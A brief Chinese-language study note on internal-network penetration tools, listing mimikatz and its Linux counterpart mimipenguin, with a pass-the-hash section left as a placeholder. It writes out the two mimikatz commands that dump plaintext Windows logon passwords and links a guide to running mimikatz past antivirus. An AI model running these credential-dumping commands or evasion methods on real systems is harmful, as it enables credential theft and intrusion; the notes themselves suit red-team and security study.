 # 内网渗透其他工具学习

## mimikatz
* 官网：https://github.com/gentilkiwi/mimikatz
* 注：需要先提权，以管理员权限运行
* mimikatz 提取Windows系统的明文密码只需两行命令：
```
privilege::debug
sekurlsa::logonpasswords
```
* 免杀方法：九种姿势运行Mimikatz https://www.freebuf.com/articles/web/176796.html

## Mimipenguin 
* 官网：https://github.com/huntergregal/mimipenguin
* 仿mimikatz版本
* 支持部分linux:ubuntu 14,16 ; fedora 25,27

## pass the hash攻击 [TODO]